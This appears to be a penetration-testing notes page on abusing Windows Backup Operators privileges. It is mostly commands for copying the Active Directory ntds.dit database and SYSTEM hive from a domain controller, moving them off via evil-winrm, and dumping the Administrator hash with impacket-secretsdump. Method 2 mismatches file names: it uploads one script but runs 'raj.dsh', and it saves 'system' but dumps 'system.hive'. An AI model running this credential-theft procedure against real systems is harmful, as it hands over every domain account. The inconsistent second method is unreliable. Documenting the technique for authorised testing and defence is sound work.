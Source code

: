 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Backup Operators

## Information

Backup Operators can **back up and restore all files on a computer**, including OS files, regardless of the permissions that protect those files. Because members of this group can replace files on DCs, they're considered **service administrators**.

> Well known SID/RID: `S-1-5-32-551`.

<table><thead><tr><th width="205">Privilege</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/back-up-files-and-directories">SeBackupPrivilege</a></td><td>Allows us to create backups of any files, whilst not restoring their permissions, which equals to <strong>arbitrary read access</strong>.</td></tr><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/restore-files-and-directories">SeRestorePrivilege</a></td><td>Allows us to <strong>overwrite legitimate executable files</strong> with versions that include malicious software used for <strong>privilege escalation</strong>.</td></tr></tbody></table>

## Exploitation

### Dumping ntds.dit

#### Method 1

Create a [**diskshadow**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) script from the attack host to expose the `c:` drive.

{% code overflow="wrap" %}
```bash
# creating a diskshadow script
nano diskshadow_script
# listing its content
cat diskshadow_script
set context persistent nowriters
add volume c: alias random
create
expose %random% z:
# converting file into a Windows-compatible format
$ sudo unix2dos diskshadow_script
unix2dos: converting file diskshadow_script to DOS format...
```
{% endcode %}

[Transfer](../../../../tools/tools/file-transfers.md) the script to the target host and execute the following steps. In the example below, `evil-winrm` is used to transfer the files between the attack and the target host, via its `upload` and `download` methods.

```powershell
# move within a writeable directory
cd c:\windows\temp
# upload the diskshadow script
upload diskshadow_script
# expose the shadow copy
diskshadow /s diskshadow_script
# copy the ntds.dit database
robocopy /b z:\windows\ntds . ntds.dit
# copy the system.hive file
reg save hklm\system c:\windows\temp\system.hive
# download both files
download ntds.dit
download system.hive
```

Dump the `ntds.dit` from the attack host.

{% code overflow="wrap" %}
```bash
# dump the ntds.dit data and extract the administrator's hash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
```
{% endcode %}

#### Method 2

Download the `SeBackupPrivilegeUtils.dll` and `SeBackupPrivilegeCmdLets.dll` from [here](https://github.com/giuliano108/SeBackupPrivilege) on the attack host and transfer them to the target along with the diskshadow script ([Method 1](backup-operators.md#method-1))  (on the example below `evil-winrm` is used).

```powershell
# move to a writeable directory
cd C:\Temp
# upload files
upload diskshadow_script
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll
# import DLLs into memory
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
# expose the shadow copy
diskshadow /s raj.dsh
```

Unlike [Method 1](backup-operators.md#method-1), this time we will be using the `Copy-FileSebackupPrivilege` cmdlet (part of the DLL files) to copy the `ntds.dit` file from the `z:` volume to the `Temp` directory.

```powershell
# copy ntds.dit to Temp
Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
# copy system.hive
reg save hklm\system c:\Temp\system
# exfiltrate files
download ntds.dit
download system
```

Dump the `ntds.dit` from the attack host.

```bash
# dump the ntds.dit data and extract the administrator's hash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
```

## Resources

{% tabs %}
{% tab title="Backup Operators" %}
{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#backup-operators" %}
{% endtab %}

{% tab title="SeBackup" %}
{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/" %}
{% endtab %}
{% endtabs %}

